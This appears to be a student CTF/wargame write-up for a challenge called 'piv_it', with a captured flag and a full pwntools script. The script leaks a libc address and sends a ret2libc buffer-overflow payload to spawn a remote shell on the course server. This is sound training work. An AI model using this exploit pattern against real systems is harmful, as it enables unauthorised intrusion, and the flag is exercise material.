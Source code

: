 ```
print '\n' + flag

```

`6447{4ee67e05-ec23-4d7a-9b12-b17a3b251656}`


piv_it
===========================

General overview of problems faced
-------------------------------------
- Had to learn how to beat a non-executable stack

Steps to exploit
------------------
1. Same steps as roproprop except a buffer of different size was needed to cause a buffer overflow.;
2. This only works a few times, doesn't always garuntee to print out the flag

Script/Command used
------------------
```
#!/usr/bin/env python

from pwn import *
from time import sleep


p = remote('wargames.6447.sec.edu.au', 8001)

p.recvuntil('random number: ')
printf_leak = p.recvline()
printf_addr = int(printf_leak, 16)
p.recv()


# the following values are for remote libc-2.23
offset_printf = 0x049670
offset_system = 0x03ada0
offset_str_bin_sh = 0x15ba0b
libc_base = printf_addr - offset_printf

payload = 'AA' + (p32(libc_base+offset_system) + 'AAAA' + p32(libc_base+offset_str_bin_sh)) * ((0x80/12)+1)
payload = payload[:0x80] # trim excess bytes
p.send(payload)
p.recv()

payload = 'AA' + (p32(libc_base+offset_system) + 'AAAA' + p32(libc_base+offset_str_bin_sh)) * (((0x1c-0x08)/12)+1)
payload = payload[:0x1c - 0x08] # trim excess bytes
p.sendline(payload)
p.recv()

p.interactive()

```
